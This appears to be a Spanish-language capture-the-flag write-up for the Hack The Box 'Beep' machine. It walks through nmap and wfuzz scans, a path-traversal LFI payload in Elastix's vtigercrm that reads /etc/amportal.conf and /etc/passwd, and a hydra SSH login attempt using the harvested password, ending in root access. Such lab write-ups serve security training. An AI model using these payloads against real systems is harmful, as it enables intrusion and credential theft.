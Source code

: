 ![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/beep.jpg)

## Linux - Easy
IP = 10.10.10.7

### USER ###

*** 
Ejecutamos nmap 
    
    nmap 10.10.10.7 -p- --open --min-rate 5000 -vv -n -Pn -oG allPorts
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/allports.jpg)

    nmap 10.10.10.7 -sC -sV -p80  -oN targeted

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/targeted.jpg)

Detectamos un apache, openssh, smtp, imap, ssl 
Revisamos la pagina web vemos que es un elastix (https://es.wikipedia.org/wiki/Elastix)

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/elastix.jpg)

realizamos un scaneo de directorios en busca de algo mas de información

    wfuzz -c -t 400 --hc=404 --hh=1785 -L -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.7/FUZZ/
            
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/wfuzz.jpg)

Detectamos varias paginas entre ellas admin accedemos e intentamos conectar con las password por defecto y no funciona.
Buscamos informacion sobre Elastix y encontramos una vulnerabilidad LFI 
(https://www.exploit-db.com/exploits/37637)

    /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
    
Lo ejecutamos y vemos que nos muestra unas credenciales.

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/lfi.jpg)

probamos a ver /etc/passwd para ver los usuarios que tienen bash e intentar conectar con ellos

     /vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
     
[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/usuarios.jpg)

Sacamos el listado de usuarios y dejamos solo los que tengan bash

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/bash.jpg)
[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/bash2.jpg)


lanzamos hydra para ver si nos conecta por ssh con las credenciales obtenidas.

    hydra 10.10.10.7 ssh -L user.txt -p jEhdIekWmdjE -f -vv
    
[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/hydra.jpg)

Accemos con root por ssh

    ssh -o KexAlgorithms=diffie-hellman-group1-sha1 -o Ciphers=aes256-cbc root@10.10.10.7
    
 [](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/ssh.jpg)

conseguimos la flag de user.txt

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/flagUser.txt.jpg)

conseguimos la flag de root.txt

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/flagRoot.jpg)



